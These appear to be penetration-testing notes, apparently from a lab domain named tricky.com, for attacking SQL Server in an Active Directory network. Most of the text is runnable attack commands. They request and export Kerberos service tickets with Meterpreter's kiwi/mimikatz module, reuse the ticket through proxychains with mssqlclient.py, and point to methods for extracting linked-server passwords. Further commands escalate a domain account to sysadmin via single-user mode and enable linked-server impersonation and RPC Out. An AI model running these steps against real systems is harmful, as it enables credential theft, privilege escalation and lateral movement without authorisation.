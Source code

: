 
    //Request TGS & Connect via Kerberos Ticket from Linux:
        setspn -T tricky.com -Q MSSQLSvc/*
        load kiwi
        kiwi_cmd "kerberos::list"
        kiwi_cmd "kerberos::ask /target:MSSQLSvc/sql05.tricky.com:1433"
        kiwi_cmd "kerberos::list /export"

        echo -n "ABC...==" | base64 -d > /tmp/ticket
        ticketConverter.py /tmp/ticket /tmp/ticket.ccache
        export KRB5CCNAME=/tmp/ticket.ccache
        sudo echo "172.16.173.151 sql05.tricky.com" >> /etc/hosts
        proxychains mssqlclient.py -k -dc-ip 172.16.173.150 sql05.tricky.com -debug


    //**Method to Recover Linked Server Hash:
        1. Enable DAC Mode:
            https://www.mssqltips.com/sqlservertip/5364/troubleshooting-the-sql-server-dedicated-administrator-connection/
        2. Run .ps1 Script:
            https://www.richardswinbank.net/admin/extract_linked_server_passwords


    //Configuration Troubleshooting:
        //Give User Sysadmin SQL Role (from local admin access):
            sc query | findstr /i sql
            select @@ServiceName;       //get named instance (for sqlservr cmd)
            net stop MSSQL$SQLEXPRESS
            cd C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\Binn
            sqlservr -m"SQLCMD" -s SQLEXPRESS
            //another window:
                sqlcmd
                    create login [DEV\SQLSVC01] from windows;
                    go
                    ALTER SERVER ROLE [sysadmin] ADD MEMBER [DEV\SQLSVC01];
                    go
            net start MSSQL$SQLEXPRESS   
        //Add Login Mapping for Another Server:
            select * from sys.servers;
            select * from sys.sql_logins;
            ##via query:  EXEC master.dbo.sp_addremotelogin @remoteserver = 'SQL03', @loginame = 'sa', @remotename = 'sa';
            ***via manual:  Server Objects > Linked Servers > SQL03 > Properties > Security > Check the Impersonate Box
        //Configure Remote Server for RPC:
            Server Objects > Linked Servers > SQL03 > Properties > Server Options > Enable RPC Out
